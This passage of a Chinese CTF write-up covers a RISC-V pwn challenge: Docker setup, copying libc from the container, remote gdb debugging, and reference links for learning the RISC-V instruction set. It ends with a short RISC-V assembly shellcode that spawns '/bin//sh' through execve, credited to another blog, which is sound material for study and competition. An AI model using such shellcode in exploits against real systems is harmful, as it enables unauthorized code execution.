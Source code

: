 启动docker环境：

```python
➜  docker-compose build
➜  docker-compose -f docker-compose.yml  up
```

由于本题之后与libc相关，故拷贝出libc：

```python
➜  docker container list
CONTAINER ID        IMAGE                        COMMAND                  CREATED             STATUS              PORTS                    NAMES
0de2a597a22a        favourite_architecture_pwn   "/usr/sbin/xinetd -d…"   About an hour ago   Up About an hour    0.0.0.0:8888->60001/tcp   favourite_architecture_pwn_1
➜  docker cp 0de2a597a22a:/lib/x86_64-linux-gnu/libc-2.27.so  ./
```

gdb.cmd远程调试相关：

```python
➜  cat gdb.cmd 
set architecture riscv:rv64
set endian little
file ./main
target remote  10.10.10.1:1234
➜  gdb-multiarch -x ./gdb.cmd
```

### shellcode编写练习

- 安装交叉编译工具：`sudo apt install gcc-riscv64-linux-gnu`
- 系统调用号：[https://elixir.bootlin.com/linux/v4.18.20/source/include/uapi/asm-generic/unistd.h](https://elixir.bootlin.com/linux/v4.18.20/source/include/uapi/asm-generic/unistd.h)

指令集学习：

![image](https://xuanxuanblingbling.github.io/assets/pic/riscv/register.png)
> 出自：[RISC-V cheatsheet](https://metalcode.eu/2019-12-06-rv32i.html)

- [RISC-V 手册](http://riscvbook.com/chinese/RISC-V-Reader-Chinese-v2p1.pdf)
- [RISC-V wikipedia](https://zh.wikipedia.org/wiki/RISC-V)
- [RISC-V cheatsheet](https://metalcode.eu/2019-12-06-rv32i.html)
- [RISC-V User-level ISA Cheat Sheet](http://csl.snu.ac.kr/courses/4190.307/2020-1/riscv-user-isa.pdf)
- [The RISC-V Base ISA and Standard Extensions](https://riscv.org/wp-content/uploads/2018/05/13.15-13-50-Talk-riscv-base-isa-20180507.pdf)

#### 汇编

直接用汇编写，从Christina Quast处习得：[https://thomask.sdf.org/blog/2018/08/25/basic-shellcode-in-riscv-linux.html](https://thomask.sdf.org/blog/2018/08/25/basic-shellcode-in-riscv-linux.html)

```s
    .global _start
    .text
_start:
    li s1, 0x68732f2f6e69622f   # Load "/bin//sh" backwards into s1
    sd s1, -16(sp)              # Store dword s1 on the stack
    sd zero, -8(sp)             # Store dword zero after to terminate
    addi a0,sp,-16              # a0 = filename = sp + (-16)
    slt a1,zero,-1              # a1 = argv set to 0
    slt a2,zero,-1              # a2 = envp set to 0
    li a7, 221                  # execve = 221
    ecall                       # Do syscall
```

